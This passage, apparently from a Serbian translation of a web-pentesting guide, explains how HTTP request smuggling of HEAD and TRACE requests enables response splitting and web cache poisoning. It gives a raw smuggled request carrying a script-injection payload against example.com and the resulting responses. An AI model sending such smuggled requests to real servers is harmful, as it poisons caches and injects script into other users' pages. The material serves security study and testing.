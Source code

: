 Jedan primer kako zloupotrebiti ovu ponašanje bilo bi **prvo prokrijumčariti HEAD zahtev**. Ovaj zahtev će dobiti odgovor samo sa **zaglavljima** GET zahteva (**`Content-Type`** među njima). Zatim prokrijumčariti **odmah nakon HEAD TRACE zahtev**, koji će **reflektovati poslate podatke**.\
Pošto HEAD odgovor sadrži `Content-Length` zaglavlje, **odgovor TRACE zahteva će biti tretiran kao telo HEAD odgovora, te reflektovati proizvoljne podatke** u odgovoru.\
Ovaj odgovor će biti poslat sledećem zahtevu preko veze, pa se to može **koristiti u keširanom JS fajlu na primer za ubacivanje proizvoljnog JS koda**.

### Zloupotreba TRACE putem Razdvajanja HTTP Odgovora <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Nastavak prateći [**ovaj post**](https://portswigger.net/research/trace-desync-attack) sugerira se drugi način zloupotrebe metode TRACE. Kao što je komentarisano, prokrijumčariti HEAD zahtev i TRACE zahtev je moguće **kontrolisati neke reflektovane podatke** u odgovoru na HEAD zahtev. Dužina tela HEAD zahteva je uglavnom naznačena u Content-Length zaglavlju i formirana je odgovorom na TRACE zahtev.

Stoga, nova ideja bi bila da, znajući ovaj Content-Length i podatke dati u TRACE odgovoru, moguće je napraviti da TRACE odgovor sadrži validan HTTP odgovor nakon poslednjeg bajta Content-Length, omogućavajući napadaču potpunu kontrolu nad zahtevom ka sledećem odgovoru (što bi se moglo koristiti za izvođenje trovanja keša).

Primer:

```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```

Generisaće ove odgovore (primetite kako HEAD odgovor ima Content-Length koji čini da TRACE odgovor bude deo HEAD tela i kada HEAD Content-Length završi, validan HTTP odgovor je prokrijumčaren):

```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50
```